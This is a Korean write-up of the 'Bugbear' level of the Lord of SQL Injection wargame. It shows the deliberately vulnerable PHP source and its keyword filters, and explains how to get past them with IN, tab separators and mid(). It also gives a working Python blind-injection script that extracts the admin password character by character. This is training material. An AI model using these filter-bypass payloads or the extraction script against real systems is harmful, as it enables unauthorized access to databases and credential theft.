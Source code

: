 ## Lord of SQL Injection No. 13 - Bugbear
## 문제 출제 의도
like함수, substr함수, substring함수 없이 SQL문을 조작 가능 한지 확인한다.
## 소스 코드 분석
+ 소스 코드  
bugbear소스 코드는 다음과 같다.   
    ~~~ 
    <?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
    if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
    if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
    $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
    $_GET[pw] = addslashes($_GET[pw]); 
    $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
    highlight_file(__FILE__); 
    ?>
    ~~~
+ 소스 코드 분석
    - Get 방식으로 받은 no값에 prob _ . ( )중 하나라도 있다면 "No Hack~_~"이 출력되고 문제 풀이에 실패한다.
    - Get 방식으로 받은 pw값에 (single quote)가 있다면 "HeHe"가 출력되고 문제 풀이에 실패한다.
    - Get 방식으로 받은 no값에 (single quote),substr,ascii,=(대입연산자),or,and중 하나라도 있다면 "HeHe"가 출력되고 문제 풀이에 실패한다.
    - SQL문을 통해 받은 id 값이 0이 아니라면 "Hello Id"가 출력된다.
    - 문제 풀이에 성공하는 조건은 한 레코드의 id 값이 'admin'이고 pw값이 입력한 pw 값과 같을 떄 즉 id가 'admin'인 회원의 pw값을 알아내야 한다.
## 문제 해결
+ IN
    - 대입 연산자를 대체하여 그 자리에 동일하게 IN을 삽입하고 대입할 문자열을()소괄호로 묶어주어 사용하면 '=' 을 사용하지 않고 SQL문을 조작 가능하다.

+ 코드
    - 따라서 다음과 같은 코드를 작성하면 pw값을 알 수 있다.
    ~~~
    import urllib.request
    from urllib.parse import quote

    key = ""
    for i in range(1, 9):
        for j in range(48, 127):
            url = "http://los.eagle-jump.org/bugbear_431917ddc1dec75b4d65a23bd39689f8.php?no="
            data = '1||id%09IN%09("admin")%26%26mid(pw,1,{})%09IN%09("{}")%23'.format(str(i), key + chr(j))
            print(data)
            # no=1||id%09IN%09("admin")%26%26MID(pw,1,1)%09IN%09("7")%09--%09-
            # data = quote(data)
            re = urllib.request.Request(url + data)
            re.add_header("User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.75 Safari/537.36") 
            re.add_header("Cookie", "PHPSESSID=lu2qch32sh6s8s57djgjra3hs3")
            res = urllib.request.urlopen(re) 
            if str(res.read()).find("Hello admin") != -1:
                key += chr(j).lower()
                print(key)
                break
    print(key)
    ~~~
    - 이를 실행하면 pw=735c2773가 출력된다
    - 이를 URL뒤에 GET방식으로 입력하면 문제가 해결된다.